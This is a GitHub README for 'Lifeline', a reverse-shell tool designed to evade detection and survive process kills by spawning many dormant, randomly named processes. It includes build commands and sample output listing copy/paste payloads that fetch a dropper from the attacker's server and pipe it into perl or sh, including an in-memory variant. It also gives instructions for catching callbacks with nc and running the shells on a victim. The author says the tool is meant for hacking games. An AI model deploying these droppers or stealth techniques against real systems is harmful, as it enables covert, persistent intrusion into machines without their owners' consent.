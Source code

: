 # Lifeline

Lifeline is a reverse shell that's designed to be hard to detect and hard to kill. It does this by spawning many dormant processes with randomized names that can take over when a shell is killed.

## tl;dr:
![](.github/meme.png)

It is like the cockroach of reverse shells; Not particularly nice to look at, but it will survive almost anything.


## Features
### Pros
 * Easily spawn many reverse shells as background processes
 * Only one process will connect back to your listener, leaving all other processes undetected by `netstat`
 * The default reverse shell does not use a `pts`, making it harder to detect.
 * Compatible with [pwncat](https://github.com/calebstewart/pwncat)
 * Included `perl` dropper will run lifeline entirely [from RAM, without saving it to disk](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).
### Cons
 * The reverse shell is compiled, making it harder to deploy if your target has a different architecture.


## Dependencies
* GCC
* make
* python3 (used as a basic webserver)

## Usage
### All-In-One
To compile and serve a lifeline binary, use the following command:
```
make serve HOST=x.x.x.x
```
This command will build the binary, create dropper scripts and hosts them using `python3`'s webserver.

```
[~/git/lifeline]~$ make serve HOST=10.0.0.12
=========================================================
  Hosting dropper on http://10.0.0.12:8000...        
  Copy/Paste payloads:                                   
                                                         
 In memory:                                              
  curl http://10.0.0.12:8000/dropper.pl | perl       
  wget -O - http://10.0.0.12:8000/dropper.pl | perl  
                                                         
 Temp file:                                              
  curl http://10.0.0.12:8000/dropper.sh | sh         
  wget -O - http://10.0.0.12:8000/dropper.sh | sh    

 Raw download:
  curl http://10.0.0.12:8000/lineline > lifeline         
  wget http://10.0.0.12:8000/lifeline
=========================================================

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

After which you can open a new terminal with a `nc` listener on port `1337` and wait for the callback.  
From the `nc` listener, you can execute commands directly or drop into an `sh` process using the "!shell" command.

### Manual
You can compile lifeline using the following command:
```
make HOST=x.x.x.x
```
This will place a compiled reverse shell in the `build` directory. You can start reverse shells by running the following command on the victim:
```
./lifeline [number of shells]
```


## Make flags:
|Flag      |                                                            |
|----------|------------------------------------------------------------|
|`HOST`    | Listener IP address.                                       |
|`PORT`    | Listener port, defaults to `1337`.                         |
|`NUM`     | Number of processes started by a dropper, defaults to `10`.|
|`PY_PORT` | Port used for Python http server, defaults to 8000.        |


## Practicalities
* Since the lifeline processes are spawned in quick succession, they will likely have sequential `PID`'s. Spawning a small amount of new shells manually will yield better results than spawning 100 shells at once.
* By spawning a few lifelines without opening a listener, you can keep the processes hidden until your other shells are killed.

## F.A.Q.
### Q; Does this provide an persistence against reboots?
No, I created this program mostly for "KOTH"-like hacking games, where reboots aren't really an issue.  
### Q; Why is the shell so bad?
The default "shell" is actually just a bunch of `popen` calls. You can used "!shell" to drop into a normal reverse shell which you can stabilize with Python. You can also use [pwncat](https://github.com/calebstewart/pwncat)'s listener directly if you want a fancy shell.

The rationale behind this is that I want to keep control over the process to facilitate reconnecting, which is not possible once you set up a normal reverse shell with `execv`.
